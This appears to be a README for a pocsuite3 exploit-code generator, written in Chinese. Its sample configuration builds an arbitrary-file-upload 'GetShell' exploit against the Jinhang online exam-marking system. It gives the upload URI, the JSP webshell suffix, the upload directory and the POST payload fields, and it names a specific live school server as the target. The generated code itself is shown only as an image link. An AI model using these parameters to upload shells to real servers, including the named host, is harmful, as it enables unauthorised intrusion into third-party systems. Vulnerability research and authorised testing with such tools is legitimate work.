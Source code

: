# exp_code_generator
pocsuite3-exp-生成器

CLASSNAME = 'jinhang_LDY_2022_00137525'
VUL_ID = 'LDY-2022-00137525'
VUL_DATE = '2022-07-04'
CREATEDATE = '2021-9-30'
UPDATEDATE = '2023-01-30'
APP_NAME = 'jinhang'
VUL_NAME = '任意文件上传(GetShell)' #漏洞名称
VUL_NUM  = 'LDY-2022-00137525' #漏洞编号
CVE_NUM = '' #CVE编号
CNVD_NUM = '' #CNVD编号
VUL_TYPE = 'UPLOAD_FILES' # 必填，漏洞类型，参考 pocsuite3 VUL_TYPE的取值范围
POC_CATEGORY = 'EXPLOITS.WEBAPP' # 必填，漏洞分类，参考 pocsuite3 POC_CATEGORY的取值范围
SEVERITY = 'Critical' # 必填，严重等级，取值范围 Critical , High , Medium, Low
REQAUTH = 'False' # 必填，boolen值，该漏洞验证或利用是否需要先认证
FINGERPRINT_NAMES = 'jinhang' # 必填，当命中哪些指纹后，可使用该poc。列表中是指纹的名称
APP_MAIN_PORT = '80' # 必填，该应用的默认配置端口，用于快速扫描模式，若无法确认可以写80
APPVERSION = '<=2018' # 必填，漏洞影响的版本号
APP_POWER_LINK = 'http://www.hsjinhang.com/' # 非必填，应用厂商链接
DESC = '金航网上阅卷系统可以提供以学生、班级、学校、年级、教师、科目、知识点等为测量依据的各种成绩分析报表，并能提供每个学生历次考试结果的综合分析。金航网上阅卷系统存在文件上传漏洞，攻击者可利用该漏洞获取系统权限'
SUGGEST = '厂商尚未提供漏洞修补方案，请关注厂商主页及时更新：http://www.hsjinhang.com/'
HASEXP = 'True' # 必填，boolen值，是否包含exp
TARGETS = 'http://yj.ybwsxx.com.cn:8011' # 必填，该Poc适用的目标，string类型
SURICATA_RULES = 'fileUpload' # 必填，suricata格式的检测规则,这里只需要填写匹配流量包关键词即可
COMMAND = '#'
FILE_PATH = '' #如果不使用file_path=传shell地址，可以使用"#"进行传参数
REFERENCES = '' # 非必填，漏洞相关参考链接
URI = '/fileUpload' #payload请求uri
PAYLOAD_DATA = {'upload': (filename,param,"image/png")} #传入的data数据
UPLOAD_DIRECTORY = '/upload/'
FILE_SUFFIX = 'jsp'
TIMEOUT = 3
METHOD = 'post' # request 请求方式 get、post
HEADERS = "None"
ATTACK_PAYLOAD_DATA = '11'
ATTACK_URI = "" #利用payload请求uri

#### 生成之后的代码

![img.png](img.png)
